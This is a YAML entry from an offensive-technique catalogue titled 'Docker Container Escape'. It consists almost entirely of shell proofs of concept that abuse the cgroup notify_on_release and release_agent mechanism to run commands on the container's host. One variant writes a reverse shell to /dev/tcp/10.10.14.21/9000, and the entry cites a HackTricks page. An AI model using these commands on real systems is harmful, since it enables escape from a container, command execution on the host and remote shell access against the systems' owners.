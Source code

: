 ```yaml
---
functions:
  ttp-tip:
    - description: Docker Container Escape
      code: |
        ================= Initial PoC =================
        d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
        mkdir -p $d/w;echo 1 >$d/w/notify_on_release
        t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
        touch /o;
        echo $t/c >$d/release_agent;
        echo "#!/bin/sh $1 >$t/o" >/c;
        chmod +x /c;
        sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o


        ================= Second PoC =================
        mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
         
        echo 1 > /tmp/cgrp/x/notify_on_release
        host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
        echo "$host_path/cmd" > /tmp/cgrp/release_agent

        ================= Option 1 =================
        echo '#!/bin/sh' > /cmd
        echo "ps aux > $host_path/output" >> /cmd
        chmod a+x /cmd

        ================= Option 2 Reverse shell =================
        echo '#!/bin/bash' > /cmd
        echo "bash -i >& /dev/tcp/10.10.14.21/9000 0>&1" >> /cmd
        chmod a+x /cmd

         
        sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
        head /output
resources: |
  https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-a-docker-container
---
```

